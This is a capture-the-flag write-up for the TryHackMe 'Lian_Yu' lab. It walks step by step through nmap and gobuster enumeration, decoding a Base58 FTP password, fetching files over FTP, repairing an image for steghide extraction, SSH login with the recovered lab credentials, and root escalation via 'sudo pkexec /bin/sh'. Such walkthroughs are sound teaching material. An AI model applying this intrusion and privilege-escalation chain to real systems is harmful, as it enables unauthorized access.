 # [Lian_Yu](https://tryhackme.com/room/lianyu)

## A beginner level security challenge

# Find the Flags

### What is the Web Directory you found?

_In numbers_

1. Initial reconnaissance with nmap to identify open services and ports

```bash
nmap -sV <TARGET_IP>
```

[SCREEN01]

2. Directory enumeration using gobuster with a standard wordlist followed by a custom numeric wordlist for the `/island` path
   - Directory found: `/island/2100`

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
seq 1000 9999 > numbers.txt
gobuster dir -u http://<TARGET_IP>/island -w numbers.txt
```

[SCREEN02]
[SCREEN03]

---

### what is the file name you found?

_How would you search a file/directory by extension?_

1. File enumeration within the discovered directory using extension-specific search to identify ticket files
   - File found: `green_arrow.ticket`

```bash
gobuster dir -u http://<TARGET_IP>/island/2100 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket
```

[SCREEN04]

---

### what is the FTP Password?

_Looks like base? https://gchq.github.io/CyberChef/_

1. Analysis of the ticket file at `http://<TARGET_IP>/island/2100/green_arrow.ticket` reveals an encoded string `RTy8yhBQdscX`. Decoding this Base58 encoded string using [CyberChef](https://gchq.github.io/CyberChef/) yields the FTP password: `!#th3h00d`

[SCREEN05]

---

### what is the file name with SSH password?

1. FTP credentials discovery requires examining the source code of `http://<TARGET_IP>/island/` to locate the username

   - FTP credentials: `vigilante:!#th3h00d`

2. FTP session to retrieve available files from the server

```bash
ftp <TARGET_IP>
ls -la
mget *
```

[SCREEN06]

3. File analysis reveals steganographic content requiring extraction. The corrupted PNG file header needs repair before steganographic analysis.
   - File containing SSH password: `shado`
   - SSH password extracted: `M3tahuman`

```bash
hexdump -C Leave_me_alone.png | head
printf '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a' > fixed_Leave_me_alone.png
tail -c +9 Leave_me_alone.png >> fixed_Leave_me_alone.png
steghide extract -sf aa.jpg # password is password
```

---

### user.txt

1. SSH access using discovered credentials to retrieve the user flag.

```bash
ssh slade@<TARGET_IP>
cat /home/slade/user.txt
```

[SCREEN07]

---

### root.txt

1. Privilege escalation enumeration to identify sudo permissions and potential exploitation vectors

```bash
sudo -l
```

[SCREEN08]

2. Exploitation using pkexec binary with sudo privileges. Reference [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec) for `pkexec` exploitation techniques

```bash
sudo pkexec /bin/sh
cat /root/root.txt
```

[SCREEN09]

